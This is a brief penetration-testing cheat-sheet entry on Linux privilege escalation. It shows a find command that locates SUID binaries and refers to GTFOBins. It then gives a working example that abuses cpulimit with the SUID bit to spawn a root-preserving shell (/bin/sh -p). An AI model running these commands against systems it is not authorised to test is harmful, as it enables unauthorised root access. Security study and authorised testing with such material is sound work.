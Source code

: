 `find / -type f -perm -u=s 2>/dev/null`

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

Here you want to see if there are any SUID based exploit for any found binary.

example:

```
$ find / -type f -perm -u=s 2>/dev/null
.......
/usr/bin/cpulimit
.......
```
https://gtfobins.github.io/gtfobins/cpulimit/#suid

```
sudo install -m =xs $(which cpulimit) .

./cpulimit -l 100 -f -- /bin/sh -p
```

If cpulimit is exploitable, you could install or exploit through existing binary.
